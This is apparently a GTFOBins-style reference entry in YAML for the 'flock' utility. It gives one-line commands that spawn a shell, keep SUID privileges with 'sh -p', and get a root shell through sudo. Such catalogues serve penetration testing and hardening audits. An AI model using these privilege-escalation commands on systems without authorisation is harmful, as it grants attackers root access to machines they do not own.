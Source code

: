 ```yaml
---
functions:
  execute-interactive:
    - code: flock -u / /bin/sh
  suid-enabled:
    - code: ./flock -u / /bin/sh -p
  sudo-enabled:
    - code: sudo flock -u / /bin/sh
---
```


